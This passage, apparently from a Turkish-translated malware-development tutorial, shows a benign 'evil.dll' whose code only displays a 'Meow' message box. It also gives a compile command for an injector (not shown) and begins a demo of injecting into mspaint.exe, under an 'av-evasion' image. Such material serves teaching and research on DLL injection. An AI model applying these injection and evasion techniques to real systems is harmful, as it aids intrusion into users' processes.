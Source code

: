 As usually, for simplicity I create simple DLL with `meow from evil.dll!` messagebox (`evil.c`):      

Her zamanki gibi, basitlik açısından `evil.dll` içinde bir `meow` mesaj kutusu içeren basit bir DLL oluşturuyorum! (`evil.c`):    

```cpp
/*
evil.cpp
simple DLL for DLL inject to process
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2021/09/20/malware-injection-2.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  nReason, LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
    MessageBox(
      NULL,
      "Meow from evil.dll!",
      "=^..^=",
      MB_OK
    );
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}
```

### demo 2

Tamam, enjeksiyonumuzu gösterelim.     

Derleyelim:      

```bash
x86_64-w64-mingw32-g++ -O2 hack2.cpp -o hack2.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive -lpsapi -lshlwapi
```

![av-evasion](./images/97/2023-05-26_00-55.png){width="80%"}      

Ve `mspaint.exe` sürecini bulup enjekte etmek için çalıştırın:    
